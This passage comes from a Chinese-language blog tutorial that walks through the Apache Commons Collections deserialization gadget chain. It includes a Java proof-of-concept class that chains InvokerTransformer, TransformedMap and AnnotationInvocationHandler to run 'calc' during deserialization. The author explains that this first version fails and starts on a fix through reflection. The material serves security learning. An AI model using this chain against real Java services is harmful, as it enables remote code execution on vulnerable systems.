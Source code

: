 ```java
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```
至此，利用链基本找到了，如下：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/94912eef747e2f98884c966c445ce801.png)
其对应的poc如下：

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class test01 {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokertransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        HashMap<Object,Object> map = new HashMap<>();
        map.put("pear","pear");
        Map transformedmap = TransformedMap.decorate(map,null,invokertransformer);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Override.class,transformedmap);
        //序列化
        FileOutputStream fileOutputStream = new FileOutputStream("serialize_1.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(instance);
        objectOutputStream.close();
        //反序列化
        FileInputStream fileInputStream = new FileInputStream("serialize_1.txt");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object result = objectInputStream.readObject();
        objectInputStream.close();
    }
}
```
问题来了，当运行上述代码时，没有弹出计算器，因为我们构造本身就存在问题：runtime根本没有传进去，而且Runtime是没有实现反序列化接口的；这该如何解决呢？我们可以获取Runtime的Class对象，Class类是实现了Serializable接口的，然后通过反射构建出我们想要的结果出来。正常通过反射构建的过程如下：

